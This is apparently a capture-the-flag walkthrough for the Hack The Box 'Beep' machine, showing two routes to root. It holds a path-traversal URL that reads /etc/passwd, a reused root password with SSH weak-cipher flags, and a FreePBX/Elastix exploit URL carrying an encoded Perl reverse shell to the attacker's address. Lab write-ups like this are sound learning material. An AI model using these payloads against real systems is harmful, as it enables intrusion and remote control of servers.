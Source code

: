 # Root 1st way
seem like `jEhdIekWmdjE` is used repeatedly. I wonder if it use somewhere else such as password for ssh.
I vist `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action` to see all users in the server. the user with login will have `/bin/bash` ash there home dir.
```console
[10.10.14.43]-kali@kali:~/HTB/beep$ nano users.txt
[10.10.14.43]-kali@kali:~/HTB/beep$ grep 'bin/bash' users.txt >> userwithlogin.txt
[10.10.14.43]-kali@kali:~/HTB/beep$ cat userwithlogin.txt 
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```
So let try too ssh to server as root
```console
[10.10.14.43]-kali@kali:/opt$ ssh root@beep.htb
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
okey let google the error, read this [stackexchange](https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found). now try again as `root:jEhdIekWmdjE`
```
[10.10.14.43]-kali@kali:/opt$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc root@beep.htb
The authenticity of host 'beep.htb (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'beep.htb,10.10.10.7' (RSA) to the list of known hosts.
root@beep.htb's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# ls
anaconda-ks.cfg		   install.log	       postnochroot  webmin-1.570-1.noarch.rpm
elastix-pr-2.2-1.i386.rpm  install.log.syslog  root.txt
[root@beep ~]# cat root.txt
[root@beep ~]# cat /home/fanis/user.txt 
```
# Root 2nd way: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
back when we were looking for exploit in `searchsploit`. I saw `FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution          | php/webapps/18650.py`. I was taking a look at it and try it with extention 1000 which give me this payload.
```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.43%3a6969%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```